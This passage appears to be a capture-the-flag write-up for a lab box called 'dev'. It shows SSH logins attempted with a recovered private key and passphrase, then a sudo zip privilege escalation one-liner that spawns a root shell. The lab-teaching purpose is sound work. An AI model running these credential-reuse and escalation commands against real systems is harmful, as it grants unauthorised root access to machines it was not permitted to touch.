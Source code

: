 * The information provided in the two files is as follows: todo.txt contains a text file that's signed by 'jp', while the second file is named id_rsa, which appears to be a key. This key might be intended for SSH access,  but we don't know the username 
* We can consider utilizing the usernames mentioned earlier, 'jp' and 'jeanpaul', along with the id_rsa file and the passphrase 'I_love_java', to make an SSH login attempt.

* Enumerating SSH :
```
>ssh -i id_rsa jp@DEV_address 
#wrong passwor (I_love_java)

>ssh -i id_rsa jeanpaul@DEV_address
#tried the same password and we login

>sudo -l 
#User jeanpaul may run the following commands on dev:  
   (root) NOPASSWD: /usr/bin/zip
  ```

* search in **gfobins** how to make privileges escalation using sudo and zip 
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
* and there we go we are root and pwned the box dev

